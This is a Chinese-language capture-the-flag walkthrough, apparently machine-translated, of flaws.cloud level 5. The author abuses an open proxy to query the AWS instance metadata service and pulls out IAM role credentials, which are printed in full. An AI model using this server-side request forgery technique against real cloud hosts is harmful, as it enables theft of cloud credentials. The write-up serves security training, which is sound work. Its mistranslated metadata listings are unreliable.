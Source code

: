 如果我們嘗試通過代理瀏覽到Level6存儲桶怎麼辦？

http://4d0cf09b9b2d761a7d87be9​​9d17507bce8b86f3b.flaws.cloud/proxy/level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud

沒有骰子。

我花了相當多的時間來思考這個問題，並嘗試了一些毫無用處的事情。因此決定通過以下方式獲得提示：http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/hint1.html，其中表示：

            在包括AWS在內的雲服務上，IP 169.254.169.254是神奇的。這是元數據服務。
            上面有一個RFC（RFC-3927），但是您應該在此處閱讀AWS特定文檔。

啊! 當然！如果使用代理獲取自己的實例元數據該怎麼辦...也許我們可以獲取一些憑據或其他有用的信息來使用...

讓我們嘗試找到一些東西-在最新的元數據中。

http://4d0cf09b9b2d761a7d87be9​​9d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/

            酰胺
            ami-launch-index
            ami-manifest-path
            塊設備映射/
            主機名
            我是/
            實例動作
            實例編號
            實例類型
            本地主機名
            本地IPV4
            蘋果電腦
            指標/
            網絡/
            放置/
            個人資料
            公共主機名
            公共ipv4
            公鑰/
            預訂編號
            安全組
            服務/

“ iam /”看起來很有趣-讓我們進入：

            信息
            安全憑證/

`security-credentials /`-是的，請注意

            缺陷
            
`flaws /`-很好，那就是我們的IAM帳戶名

http://4d0cf09b9b2d761a7d87be9​​9d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws

            {
              “代碼”：“成功”，
              “ LastUpdated”：“ 2018-02-07T06：23：47Z”，
              “類型”：“ AWS-HMAC”，
              “ AccessKeyId”：“ ASIAJXNSZYFI7LKRQ4KA”，
              “ SecretAccessKey”：“ gX0Tlc11lbWsdhPMKSGtWCAR2EuTqauh6DFAt4f8”，
              “令牌”：“FQoDYXdzELj ////////// wEaDKOpciHx0oqRxX5GbiK3A / MQWiOVjusWUJ0Uq2gVwHpsro6Yz9kztwcyyKmzMSUxc85LAtdyr2Q6zQ5AIe1GATRGWAqpG + z1ZZdKIrernZaqc6Cv8zNkQsPC0yLVmTjGJcBG443u6phnrnmkea + nXzA2X9rHC191XIlWH3JfOqR4L92 + / + Q9uOmt3K1XHoXkzHWr OdbbvYedYAjqngLz6ifOGGZ1LC5s6a35 / hw4ty3xaAXGC1x1z + uDuq5AM3FcrNv21FdBKOzz4VqKg3FXeJi4VLyetuOYJojj / i0goLZ1Lw7FGoX3lW1xwBV18yVQTscaEWI / s5EQS1nNOo + XNkbuT + CuxQUvAbU5CJyLCt7DPWz3SPBn / YY1mGgDRJdRWErOQzxw1PYQgrNVxca7ZhzLlKjR7J26IpD0E88W4Y4hRjut3wtlL5QXqNCUe4Wob9szWi / ClNxLxscsDNxlIhvbStwgEVrqg3UDLQrS + KDhL2uk1Rd49SQ5vYLQ2TjalvDxl + RWmC3la5GzqrfHFQIhhagb4ciJpdKc2R + J7Gn8gGdUZt8cEym0iUR0Dg79PO + s529nIvo + d0Z6lyXh4DLRTIYUN + wo1bbq0wU =“，